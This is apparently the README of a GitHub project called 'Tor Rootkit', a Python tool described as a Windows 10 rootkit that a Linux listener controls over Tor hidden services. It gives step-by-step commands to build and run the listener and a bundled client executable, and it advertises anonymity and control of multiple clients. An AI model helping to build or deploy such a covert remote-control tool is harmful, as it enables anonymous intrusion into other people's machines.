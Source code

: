 # Tor Rootkit
[![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

A Python 3 standalone Windows 10 Rootkit. The networking works over tor hidden services.


## Installation
- Clone with git:
```bash
git clone https://github.com/emcruise/TorRootkit.git
```

- Change directory to the repository:
```bash
cd ./TorRootkit
```

### Listener
The listener is designed to run on linux.

#### Prerequisites
- [Tor](https://www.torproject.org/)
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)

1. Install all pip3 dependencies:
```bash
pip3 install -r listener/requirements.txt
```

2. Run the listener:
```bash
./listener/listener.py <hiddenservice-port> <local-port>
```

### Client
The client is designed to run on Windows 10.

#### Prerequisites
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)

1. Install all pip3 dependencies:
```bash
pip3 install -r client\requirements.txt
```
2. Build executable from build.py:
- downloads [Tor Expert Bundle](https://www.torproject.org/download/tor/)
- bundles python3 interpreter and tor expert bundle into 1 standalone .exe file
```bash
python client\build.py <listener-onion-address> <listener-onion-port>
```

3. Execute the bundled client:
```bash
.\client\dist\client.exe
```

## Features
- Standalone executable, including python interpreter and tor expert bundle (~13MB)
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- Listener can handle multiple clients

## Disclaimer
Use for educational purposes only.
